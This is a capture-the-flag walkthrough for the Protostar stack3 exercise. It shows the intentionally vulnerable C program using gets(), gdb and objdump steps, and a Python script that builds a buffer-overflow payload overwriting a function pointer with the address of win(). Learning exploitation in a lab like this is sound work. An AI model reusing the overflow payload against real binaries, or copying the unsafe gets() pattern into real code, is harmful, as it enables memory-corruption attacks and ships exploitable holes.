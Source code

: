 ```yaml
---
title: "Protostar stack3 walkthrough"
date: 2020-05-21
tags: [ctf, protostar, stack3, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


# Protostar exercises - [stack3](https://exploit-exercises.lains.space/protostar/stack3/)

#### About
Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

both gdb and objdump is your friend you determining where the win() function lies in memory.
This level is at /opt/protostar/bin/stack3

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

#### Procedure:

Similar to stack0, the program is using `gets()` function to write input into a buffer. And the variable 'fp' which is a function pointer needs to be changed from 0 to address of 'win' function.

So first we need to find 'win' address using objdump and write it to the address of 'fp' variable

##### Vulnerability:

`gets` is vulnerable as it is impossible to tell how many characters gets() will reaed. it will continue to store the characters past the end of buffer.
`fgets` needs to be used instead.


##### Disassembly:

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack3/disassemble.png)

'fp' is stored at $esp+0x5c. It is moved into eax and called at 0x08048477. Out aim is to overwrite $esp value at this point. Lets put breapoint at this call.

```
break *0x08048475
```

Lets execute with input large enough to change $eax

```
r
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
![registers]({{site.url}}{{site.baseurl}}/images/protostar/stack3/registers.png)

We can see that $eax is changed to 0x41414141

We can find address of 'win' using `x win`
```
(gdb) x win
0x8048424 <win>:        0x83e58955
```

Now, we need to find which part of input is being written to $eax and change it to 0x8048424

So, lets run with input AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS and check the registers

![registers-2]({{site.url}}{{site.baseurl}}/images/protostar/stack3/registers-2.png)

$eax contains 0x53535353, which is 'SSSS'

Lets create a simple python program to create the string
```
padding = "AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"
padding += "\x24\x84\x04\x08"
print padding
```
Lets use the output of this to run stack3

```
python stack3.py > exp
(gdb) r < /home/user/exp
info registers
```

We see $eax is now 0x8048424. So, next instruction would be to execute $eax or win() and print success

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack3/done.png)

We can also find the address of win() using
```
user@protostar:/opt/protostar/bin$ objdump -x ./stack3 | grep win
08048424 g     F .text  00000014              win
```
